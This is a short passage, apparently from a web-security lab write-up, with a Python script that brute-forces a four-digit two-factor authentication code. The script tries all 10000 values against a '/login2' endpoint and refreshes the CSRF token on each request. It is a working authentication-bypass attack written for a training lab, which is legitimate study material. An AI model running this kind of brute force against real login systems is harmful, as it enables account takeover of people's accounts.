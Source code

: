 ```python
## BRUTE FORCE LOGIN2
for i in range(10000):
	mfa = '{0:04}'.format(i)
	mfa_csrf_token = setup()
	mfa_data = {
		'csrf':mfa_csrf_token,
		'mfa-code':mfa
	}
	r = s.post(url + '/login2', proxies=proxies, verify=False, data=mfa_data)
	if "Invalid CSRF Token" in r.text:
		mfa_csrf_token = setup()
	if "Incorrect security code" not in r.text:
		print(f'[+] Correct code: {i}')
		exit()
```

This lab eventually solves the lab!